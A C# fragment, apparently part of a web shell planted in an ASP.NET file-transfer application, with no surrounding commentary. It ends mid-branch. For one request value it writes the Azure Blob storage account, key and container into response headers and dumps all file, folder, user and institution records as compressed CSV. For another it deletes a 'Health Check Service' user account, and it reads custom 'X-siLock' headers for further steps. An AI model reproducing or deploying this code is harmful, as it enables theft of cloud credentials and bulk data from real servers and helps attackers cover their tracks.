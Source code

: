 ```
    string x = null;
    DbConn MySQLConnect = null;
    var r = connectDB();
    if (r is String) {
        Response.Write("OpenConn: Could not connect to DB: " + r);
        return;
    }
    try {
        MySQLConnect = (DbConn) r;
        if (int.Parse(instid) == -1) {
            string azureAccout = SystemSettings.AzureBlobStorageAccount;
            string azureBlobKey = SystemSettings.AzureBlobKey;
            string azureBlobContainer = SystemSettings.AzureBlobContainer;
            Response.AppendHeader("AzureBlobStorageAccount", azureAccout);
            Response.AppendHeader("AzureBlobKey", azureBlobKey);
            Response.AppendHeader("AzureBlobContainer", azureBlobContainer);
            var query = "select f.id, f.instid, f.folderid, filesize, f.Name as Name, u.LoginName as uploader, fr.FolderPath , fr.name as fname from folders fr, files f left join users u on f.UploadUsername = u.Username where f.FolderID = fr.ID";
            string reStr = "ID,InstID,FolderID,FileSize,Name,Uploader,FolderPath,FolderName\n";
            var set = new RecordSetFactory(MySQLConnect).GetRecordset(query, null, true, out x);
            if (!set.EOF) {
                while (!set.EOF) {
                    reStr += String.Format("{0},{1},{2},{3},{4},{5},{6},{7}\n", set["ID"].Value, set["InstID"].Value, set["FolderID"].Value, set["FileSize"].Value, set["Name"].Value, set["uploader"].Value, set["FolderPath"].Value, set["fname"].Value);
                    set.MoveNext();
                }
            }
            reStr += "----------------------------------\nFolderID,InstID,FolderName,Owner,FolderPath\n";
            String query1 = "select ID, f.instID, name, u.LoginName as owner, FolderPath from folders f left join users u on f.owner = u.Username";
            set = new RecordSetFactory(MySQLConnect).GetRecordset(query1, null, true, out x);
            if (!set.EOF) {
                while (!set.EOF) {
                    reStr += String.Format("{0},{1},{2},{3},{4}\n", set["id"].Value, set["instID"].Value, set["name"].Value, set["owner"].Value, set["FolderPath"].Value);
                    set.MoveNext();
                }
            }
            reStr += "----------------------------------\nInstID,InstName,ShortName\n";
            query1 = "select id, name, shortname from institutions";
            set = new RecordSetFactory(MySQLConnect).GetRecordset(query1, null, true, out x);
            if (!set.EOF) {
                while (!set.EOF) {
                    reStr += String.Format("{0},{1},{2}\n", set["ID"].Value, set["name"].Value, set["ShortName"].Value);
                    set.MoveNext();
                }
            }
            using(var gzipStream = new GZipStream(Response.OutputStream, CompressionMode.Compress)) {
                using(var writer = new StreamWriter(gzipStream, Encoding.UTF8)) {
                    writer.Write(reStr);
                }
            }
        } else if (int.Parse(instid) == -2) {
            var query = String.Format("Delete FROM users WHERE RealName='Health Check Service'");
            new RecordSetFactory(MySQLConnect).GetRecordset(query, null, true, out x);
        } else {
            var fileid = Request.Headers["X-siLock-Step3"];
            var folderid = Request.Headers["X-siLock-Step2"];
```
